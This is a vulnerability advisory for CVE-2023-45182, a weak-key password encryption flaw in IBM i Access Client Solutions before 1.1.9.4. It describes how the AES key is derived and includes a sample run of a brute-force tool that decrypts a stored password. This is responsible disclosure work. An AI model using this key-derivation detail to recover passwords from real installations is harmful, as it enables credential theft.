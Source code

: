 # CVE-2023-45182
IBM i Access Client Solutions < 1.1.9.4 - Weak password encryption 

## Timeline
- Vulnerability reported to vendor: 22.09.2023
- New fixed 1.1.9.4 version released: 08.12.2023
- Public disclosure: 15.12.2023

## Description

IBM i Access Client Solutions for storing user passwords uses AES algorith however 16 bytes encryption key is the combination of static string (`Thanatos`) and random characters from string which consists of another static string `Behemoth` combined with username, users' home folder, OS (for example `Linux`) combined with current directory where the application was started. As a result half of encryption key is static (string `Thanatos`) whereas second half is very limited. This makes it very easy for attack to brute force password even on single CPU core.

Here is an example of password decryption of `mmajchrowicz` user using the `as400_password_bruteforce_tool.java` script from the `mkubiak` account:
```
┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ java as400_password_bruteforce_tool.java mmajchrowicz_funciton_admin_work.bin Linux mmajchrowicz /opt

IBM AS400 Password Bruteforce Tool v0.3 by Michał Majchrowicz AFINE Team

Full keyspace: mmajchrowiczLinux/opt/home/mmajchrowiczBehemoth
Full keyspace length: 47

Reduced keyspace: BmajchrowizLnux/pte
Reduced keyspace length: 19

Found good pass: Thanatosaun/Lcmo

Encrypted system password 7 bytes:
2E 1B 10 0A 1B 0D 0A
Decrypted system password 7 bytes:
50 65 6E 74 65 73 74

Decrypted system password: Pentest
```

This problem was caused by application of weak password encryption. This issue is fixed in IBM i Access Client Solutions 1.1.9.4.

## Affected versions
< 1.1.9.4

## Advisory
Update IBM i Access Client Solutions to 1.1.9.4 or newer.

### References
* https://www.ibm.com/support/pages/node/7091942
* https://nvd.nist.gov/vuln/detail/CVE-2023-45182
